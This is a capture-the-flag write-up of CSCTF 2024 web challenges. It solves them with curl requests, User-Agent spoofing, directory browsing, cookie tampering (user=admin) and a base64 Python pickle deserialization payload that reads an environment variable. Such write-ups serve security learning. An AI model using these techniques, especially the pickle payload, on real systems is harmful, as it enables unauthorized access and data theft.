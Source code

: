 ```yaml
---
title: /articles/CSCTF_2024/WEB.md
layout: page
permalink: /articles/CSCTF_2024/WEB
---
```


# WEB

## Proxy man

![CTF](./imgs/Proxy_man.png)


this can be actually be very easy to do without booting burp suite or anything fancy.

if we get the page with `curl` we can see the following at the end:

![CTF](./imgs/Proxy_man1.png)

do you see something interesting? the `generate_flag.php` i would say. let's get that also:

![CTF](./imgs/Proxy_man2.png)

cool, right?

## Basics 2

![CTF](./imgs/Basics_2.png)

in the same manner as the above challenge we can solve it very easy with the help of `-H` option in curl, changing the `User-Agent` as hinted in the description.

we can search the `User-Agent` specific for the device mentioned and we get the following to bring into `curl`: `User-Agent: Mozilla/5.0 (Linux; U; Android 4.2.2; he-il; NEO-X5-116A Build/JDQ39) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30`.

flag: `CSCTF{UserAgent_whitelist}`

## Basics 3

![CTF](./imgs/Basics_3.png)

inspecting the source code of the website we can see that the image comes from a certain folder on the server `./files/images`. what is inside `./files`?

![CTF](./imgs/Basics_31.png)

this is a simple case of LFI. enjoy your flag!


## Basics 4

![CTF](./imgs/Basics_4.png)

by looking at the cookies we can see there is a certain `user=guest`. changing this to admin gives us the flag. alternatively you can `curl -b "user=admin"` the address.

## Cerealized

![CTF](./imgs/Cerealized.png)

this is where it gets fun. by inspecting the website we can see there is a `POST` happening  which prints out the text we give. we can try an XSS by generating a payload for `contents` cookie used by the pickle module. the payload generated is `gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu`, which is the encoded serialization of the object returning the value of `(os.getenv(), ("FLAG",))`.

doing this shows us a messed up version of our flag. the only thing needed is to get the text from the source code. i did this with a simple regex on the `html` code.

## Options

![CTF](./imgs/Options.png)

gonna be honest, this took a while because of the cryptic nature and moonlight logic of this challenge.

a first curl gives us this:
```
curl "http://chal.chronossec.site:30160/" -v                     ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET / HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 302 FOUND
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:31:10 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 195
< Location: /one
< Connection: close
< 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/one">/one</a>. If not, click the link.
* Closing connection
```

going to `/one` gives us this:

```
curl "http://chal.chronossec.site:30160/one" -v                  ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET /one HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 302 FOUND
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:31:15 GMT
< Content-Disposition: inline; filename=index.html
< Content-Type: text/html; charset=utf-8
< Content-Length: 63
< Last-Modified: Tue, 06 Feb 2024 07:11:16 GMT
< Cache-Control: no-cache
< ETag: "1707203476.0-63-1266812783"
< Date: Tue, 02 Apr 2024 15:31:15 GMT
< Location: /anotherone
< Connection: close
< 
hello

* Closing connection
<!-- You will get a single *hint* from my application-->
```

the *hint* is basically just going to that page `/hint`:

```
curl "http://chal.chronossec.site:30160/hint" -v                 ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET /hint HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:33:41 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 67
< Connection: close
< 
* Closing connection
Don't tell anyone, but I think I saw someone posted up at /userapp.
```

requesting with the `POST` method gives us this:

```
curl -X POST "http://chal.chronossec.site:30160/userapp" -v      ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> POST /userapp HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:34:42 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 93
< Connection: close
< 
* Closing connection
Hidden Linux files have a period prepended. Do you think I hid the hidden file? hidden hidden
```

this took a bit, trying with the `POST` method,  but finally it just hints at the `/.hidden` file:

```
curl -X PUT "http://chal.chronossec.site:30160/.hidden" -v       ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> PUT /.hidden HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:35:56 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 78
< Connection: close
< 
* Closing connection
You saw so many options! You deserve a flag: CSCTF{OPTIONS_Wil1_seT_Y0u_fr33}!
```

that's it for web, let's see [LINUX](./LINUX)
